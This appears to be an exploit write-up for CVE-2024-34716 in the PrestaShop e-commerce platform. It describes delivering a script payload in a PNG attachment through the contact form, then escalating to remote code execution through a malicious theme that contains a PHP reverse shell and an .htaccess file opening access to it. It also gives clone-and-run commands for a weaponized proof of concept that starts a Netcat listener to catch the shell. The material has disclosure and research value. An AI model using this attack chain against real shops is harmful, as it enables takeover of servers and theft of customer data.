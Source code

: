 ### Exploiting the XSS Vulnerability

1. Create a malicious PNG file (test.png) containing an HTML payload designed to execute JavaScript code. Example payload: ```<script>alert(document.domain)</script>```.

2. As an unauthenticated user, navigate to the `http://prestashop:8000/contact-us` page, fill out the contact form, and make sure you provide an email ID that is already registered. Attach the malicious test.png file and submit the form.

3. A Customer Service agent receives a notification including the malicious attachment.

![image](https://gist.github.com/assets/66908023/c6c5c7f0-5cce-4247-8888-8d1cb2bd7b59)

When the CS agent views the attachment, the XSS payload is executed, establishing the initial foothold for further exploitation.

![image](https://gist.github.com/assets/66908023/2b62df93-2aef-4423-b23d-238c097e6997)

### Escalating to Remote Code Execution

Create a malicious theme by downloading any theme and adding a malicious PHP file that triggers a connection. e.g., https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php I attached a zip theme file that was used for testing and the same ZIP contains a .htaccess file with the content below, which will enforce and allow access to the directory where we host our reverse_shell.php. It's basically to allow everyone to view or interact with the contents of the directory without restrictions, because if we didn't do this, we wouldn't be able to access our reverse_shell.php that grants us a reverse shell and we would get forbidden instead.

```php
<IfModule mod_authz_core.c>
 Require all granted
</IfModule>
```

1. Change `http://<server-ip>:[port]/malicious_theme.zip` to your instance that hosts your malicious theme.
2. Run the `exploit.py` script to automate the delivery of `exploit.html` through the `/contact-us` page, while attaching the malicious HTML file.
3. When the CS agent opens the **Attachment** on the message that will be received, the attacker will receive a command shell on the instance running PrestaShop. 

### Automatic Exploitation

1. Download the weaponized CVE-2024-34716 proof of concept from https://github.com/aelmokhtar/CVE-2024-34716_PoC using this terminal command: `git clone git@github.com:aelmokhtar/CVE-2024-34716_PoC.git`
2. Serve your modified theme.zip over HTTP, and modify the `exploit.html` according to your needs.
3. Run `pip install -r requirements.txt; python CVE-2024-34716_PoC/exploit.py` and follow the prompts to input the target URL, email address, message content, and path to your `exploit.html` file. The script handles token extraction, session handling, and submission of the malicious form data.
4. The script initiates a Netcat listener on the attacker's machine to catch the reverse shell, providing direct command-line access to the server.
5. Once the CS agent opens the **Attachment** link, you will be prompted with a shell command to control the vulnerable machine instance hosting PrestaShop.

